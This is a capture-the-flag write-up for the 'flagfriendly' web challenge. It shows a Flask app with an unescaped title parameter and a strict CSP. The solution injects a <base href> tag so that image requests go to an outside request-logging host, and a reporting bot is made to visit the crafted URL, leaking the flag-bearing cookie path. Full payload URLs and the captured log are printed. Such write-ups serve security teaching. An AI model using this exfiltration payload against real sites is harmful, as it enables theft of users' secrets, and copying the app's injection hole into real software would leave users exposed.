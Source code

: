 # flagfriendly
Web, Medium

## Description

> Flags for friendly Kuchenblech http://45.76.92.221:8070/

```python
#!/usr/bin/env python3
import requests
from flag import flag
from flask import Flask, request, redirect, make_response

app = Flask(__name__)


@app.route("/", methods=["GET"])
def index():
    title = request.args.get("title", default="Flags for Friendly Fellows", type=str)
    print("Flag cookie:", request.cookies.get("flag"))
    if request.cookies.get("flag") == flag:
        # Make sure the filename never leaks!
        path = flag
    else:
        path = "static/flag"
    response = make_response(
        f"""<!doctype html>
<html>
<head>
   <title>{title}</title>
</head>
<body>
    <h1>{title}</h1>
    <img src="/{path}.gif"/>
</body>
</html>"""
    )
    response.headers["Content-Security-Policy"] = "img-src *; default-src 'none';"
    return response


@app.route("/report")
def report():
    """
    This can be used to make bots surf this site.
    Bots will have the flag cookie set accordingly.
    """
    url = request.args.get("url", default="", type=str)
    if not url:
        return "No url parameter provided to surf to"
    return requests.get(f"http://surfer:8075?url={url}").text


@app.route(f"/{flag}.gif")
def show_gif():
    return redirect("/static/flag.gif")


if __name__ == "__main__":
    app.run()

```

## Solution

Visiting the website, we get the following output, as expected:

```html
<!doctype html>
<html>
<head>
   <title>Flags for Friendly Fellows</title>
</head>
<body>
    <h1>Flags for Friendly Fellows</h1>
    <img src="/static/flag.gif"/>
</body>
</html>
```

The `title` field is clearly vulnerable to injection, but scripts won't execute due to the existence of the CSP (Content-Security-Policy) header.

The solution is to inject an HTML tag instead: `<base href="" />`. This tag instructs the browser to load all relative resources from a given base address instead of assuming addresses are relative to the current page's URI.

Let's try visiting `http://45.76.92.221:8070/?title=%3Cbase%20href=%22https://www.google.com%22%20/%3E`:

```html
<!doctype html>
<html>
<head>
   <title><base href="https://www.google.com" /></title>
</head>
<body>
    <h1><base href="https://www.google.com" /></h1>
    <img src="/static/flag.gif"/>
</body>
</html>
```

In this case, the browser attempts to load `/static/flag.gif` from `https://www.google.com` (this obviously fails).

But what if we replace `https://www.google.com` with a server that logs all requests, such as [requestbin.com](https://requestbin.com)? 


```html
<!doctype html>
<html>
<head>
   <title><base href="https://enskhpoprq3jl.x.pipedream.net" /></title>
</head>
<body>
    <h1><base href="https://enskhpoprq3jl.x.pipedream.net" /></h1>
    <img src="/static/flag.gif"/>
</body>
</html>
```

Any access to this page will attempt to load the resource from `https://enskhpoprq3jl.x.pipedream.net`, which will be logged and visible by us. If we visit the page, `/static/flag.gif` will be loaded. But according to the challenge comments, we can trigger a bot to visit any link using the `/report` API, and the bot will have the cookie value which will load the real flag as the image path.

To conclude, we need to access:
```
http://45.76.92.221:8070/report?url=http://45.76.92.221:8070/?title=%3Cbase%20href=%22https://enskhpoprq3jl.x.pipedream.net%22%20/%3E
```

The bot visits:
```
http://45.76.92.221:8070/?title=%3Cbase%20href=%22https://enskhpoprq3jl.x.pipedream.net%22%20/%3E
```

The visit gets logged:
```
GET /junior-CSP_THE_C_IS_FOR_CYBER.gif
host: enskhpoprq3jl.x.pipedream.net
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Cache-Control: no-cache
Pragma: no-cache
Referer: http://45.76.92.221:8070/?title=%3Cbase%20href=%22https://enskhpoprq3jl.x.pipedream.net%22%20/%3E
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: cross-site
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36
Connection: keep-alive
```

The flag is: `junior-CSP_THE_C_IS_FOR_CYBER`